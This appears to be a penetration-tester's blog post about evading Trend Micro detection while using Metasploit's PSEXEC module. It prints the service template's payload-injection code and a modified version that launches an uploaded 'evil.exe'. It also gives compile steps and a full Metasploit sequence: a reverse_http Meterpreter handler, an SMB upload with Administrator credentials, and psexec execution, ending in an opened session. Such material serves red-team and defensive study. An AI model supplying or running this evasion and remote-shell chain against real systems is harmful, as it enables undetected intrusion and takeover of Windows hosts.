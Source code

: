 = Bypassing Trend Micro's Service Protection
:hp-tags: metasploit, trendmicro

[@jabjorkhaug](http://twitter.com/jabjorkhaug) posed the following question on Twitter today:

![](/images/postimages/201207_trendmicro_1.png)

I figured I could solve this and it would be an interesting challenge. Here is what it gets detected as:

![](/images/postimages/201207_trendmicro_2.png)

The service binary that is used as part of PSEXEC is located here:

MSF Directory/data/templates/src/pe/exe/service/service.c

The important part to look at starts at line 57:

```cpp
#define WIN32_LEAN_AND_MEAN
#include <windows.h>

#define PAYLOAD_SIZE	8192

char cServiceName[32] = "SERVICENAME";

char bPayload[PAYLOAD_SIZE] = "PAYLOAD:";

SERVICE_STATUS ss;

SERVICE_STATUS_HANDLE hStatus = NULL;

/*
 *
 */
BOOL ServiceHandler( DWORD dwControl )
{
	if( dwControl == SERVICE_CONTROL_STOP || dwControl == SERVICE_CONTROL_SHUTDOWN )
	{
		ss.dwWin32ExitCode = 0;
		ss.dwCurrentState  = SERVICE_STOPPED;
	}
	return SetServiceStatus( hStatus, &ss );
}

/*
 *
 */
VOID ServiceMain( DWORD dwNumServicesArgs, LPSTR * lpServiceArgVectors )
{
	CONTEXT Context;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	LPVOID lpPayload = NULL;

	ZeroMemory( &ss, sizeof(SERVICE_STATUS) );
	ZeroMemory( &si, sizeof(STARTUPINFO) );
	ZeroMemory( &pi, sizeof(PROCESS_INFORMATION) );

	si.cb = sizeof(STARTUPINFO);

	ss.dwServiceType = SERVICE_WIN32_SHARE_PROCESS;

	ss.dwCurrentState = SERVICE_START_PENDING;

	ss.dwControlsAccepted = SERVICE_ACCEPT_STOP|SERVICE_ACCEPT_SHUTDOWN;

	hStatus = RegisterServiceCtrlHandler( (LPCSTR)&cServiceName, (LPHANDLER_FUNCTION)ServiceHandler );
  
	if ( hStatus )
	{
		ss.dwCurrentState = SERVICE_RUNNING;

		SetServiceStatus( hStatus, &ss );

		if( CreateProcess( NULL, "rundll32.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi ) )
		{
			Context.ContextFlags = CONTEXT_FULL;
		  
			GetThreadContext( pi.hThread, &Context );
		  
			lpPayload = VirtualAllocEx( pi.hProcess, NULL, PAYLOAD_SIZE, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE );
			if( lpPayload )
			{
				WriteProcessMemory( pi.hProcess, lpPayload, &bPayload, PAYLOAD_SIZE, NULL );
#ifdef _WIN64
				Context.Rip = (DWORD64)lpPayload;
#else
				Context.Eip = (DWORD)lpPayload;
#endif
				SetThreadContext( pi.hThread, &Context );
			}

			ResumeThread( pi.hThread );
			
			CloseHandle( pi.hThread );
		  
			CloseHandle( pi.hProcess );
		}
		
		ServiceHandler( SERVICE_CONTROL_STOP );
		
		ExitProcess( 0 );
	}
}

/*
 *
 */
int __stdcall WinMain( HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow )
{
	SERVICE_TABLE_ENTRY st[] = 
    { 
        { (LPSTR)&cServiceName, (LPSERVICE_MAIN_FUNCTIONA)&ServiceMain }, 
        { NULL, NULL } 
    };
	return StartServiceCtrlDispatcher( (SERVICE_TABLE_ENTRY *)&st );
}

```

It's injecting our payload into the service binary and tossing our payload into "rundll32.exe" at run time on the victim (side note: you can change which bin it goes into ;). Lets change this so it doesn't do any injection and just executes a binary. That removes the 'injection' piece and hopefully lets us get our shell. We are loosing a bit of stealth because instead of just one (the service binary) we are writing two binaries.

To make this change you replace the above with just this:

```cpp
if( CreateProcess( NULL, "C:\evil.exe", NULL, NULL, FALSE, DETACHED_PROCESS, NULL, NULL, &si, &pi ) )
{
	CloseHandle( pi.hProcess );
}
```

Compiling this on OSX using mingw is very easy and is very similar on Ubuntu if you have mingw installed:

```
i386-mingw32-gcc -o service.exe service.c 
```

Then just copy it to replace the current one:

```
cp service.exe ../../../../template_x86_windows_svc.exe 
```

No other changes are needed. Only problem is, how do we get the "evil.exe" up onto the box for it to execute? That's where the auxiliary module "auxiliary/admin/smb/upload_file" comes in :-) I built a resource file to demo the timeline of getting execution with this new service binary (broken up with comments to explain, _remove the comments for it to work_):

Start Multi Handler

```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 172.16.195.1
set LPORT 80
set ExitOnSession false
exploit -j -z
```

Upload file to evil.exe on the C$ share (C$ is default for this module so no reason to set it)

```
use auxiliary/admin/smb/upload_file
set LPATH evil.exe
set RPATH evil.exe
set RHOST 172.16.195.155
set SMBUser Administrator
set SMBPass Password1234!
run
```

Execute PSEXEC using the new service binary that simply executes

```
use exploit/windows/smb/psexec
set RHOST 172.16.195.155
set SMBUser Administrator
set SMBPass Password1234!
set DisablePayloadHandler true
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 172.16.195.1
set LPORT 80
exploit -j -z
```

The passwords could have just as easily been hashes, and the end result is:

Well I can't really show you that nothing was detected… so I guess you just have to believe me when I say:

```
 [*] Meterpreter session 2 opened (172.16.195.1:80 -> 172.16.195.155:49169) at Wed Jul 04 16:02:23 -0400 2012
```

w00t!
